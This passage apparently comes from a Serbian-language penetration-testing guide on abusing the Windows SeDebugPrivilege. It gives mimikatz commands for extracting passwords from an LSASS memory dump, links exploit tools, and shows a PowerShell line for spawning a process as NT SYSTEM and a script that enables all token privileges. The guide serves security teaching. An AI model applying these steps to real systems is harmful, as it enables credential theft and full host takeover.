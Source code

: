 Ova privilegija dozvoljava **debugovanje drugih procesa**, uključujući čitanje i pisanje u memoriju. Različite strategije za ubacivanje u memoriju, sposobne da izbegnu većinu antivirusnih i host intrusion prevention rešenja, mogu se koristiti sa ovom privilegijom.

#### Dump memorije

Možete koristiti [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) iz [SysInternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) da **zabeležite memoriju procesa**. Konkretno, ovo se može primeniti na proces **Local Security Authority Subsystem Service (**[**LSASS**](https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service)**)**, koji je odgovoran za čuvanje korisničkih podataka nakon što se korisnik uspešno prijavi na sistem.

Zatim možete učitati ovaj dump u mimikatz-u da biste dobili lozinke:

```
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

#### RCE

Ako želite da dobijete `NT SYSTEM` shell, možete koristiti:

* [**SeDebugPrivilege-Exploit (C++)**](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
* [**SeDebugPrivilegePoC (C#)**](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC)
* [**psgetsys.ps1 (Powershell Script)**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1)

```powershell
# Get the PID of a process running as NT SYSTEM
import-module psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>)
```

## Provera privilegija

```
whoami /priv
```

**Tokeni koji se pojavljuju kao Onemogućeni** mogu se omogućiti, zapravo možete zloupotrebiti _Omogućene_ i _Onemogućene_ tokene.

### Omogući sve tokene

Ako imate onemogućene tokene, možete koristiti skriptu [**EnableAllTokenPrivs.ps1**](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) da omogućite sve tokene:

```powershell
.\EnableAllTokenPrivs.ps1
whoami /priv
```
